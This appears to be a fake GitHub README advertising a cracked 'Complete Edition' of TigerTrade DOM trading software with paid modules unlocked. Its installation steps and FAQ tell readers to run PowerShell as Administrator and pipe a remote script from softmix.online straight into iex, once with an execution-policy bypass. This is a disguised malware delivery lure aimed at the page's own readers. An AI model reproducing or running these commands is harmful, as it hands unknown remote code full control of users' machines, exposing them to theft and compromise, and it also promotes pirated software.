

<div align="center">


<br>


# TigerTrade DOM Trading Premium
**Professional DOM trading desk · Real-time depth of market · Premium scalping tools**
<br>
**Professional DOM trading desk · Real-time depth of market · Premium scalping tools**
<br>
Complete Edition · Pro Build · Windows · Deployment



**Complete Edition — all DOM trading modules and premium scalping features enabled.**

</div>
---

> Licensed premium DOM platform with real-time depth tools and every advanced scalping module included.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

📈 **Advanced charting** — Pro indicators and studies enabled.
💹 **Multi-asset support** — Stocks, futures and forex workflows.
📦 **Local terminal** — Works offline after setup.
🖥️ **Windows optimized** — Built for active traders.
⚙️ **Pro analytics** — Order flow and strategy tools included.
✨ **Premium modules** — Paid trading features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 500 MB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 500 MB.
</details>


TAGS
tigertrade, dom-trading, depth-of-market, scalping, order-book, real-time-data, professional, windows, desktop, software, pro, studio, tools
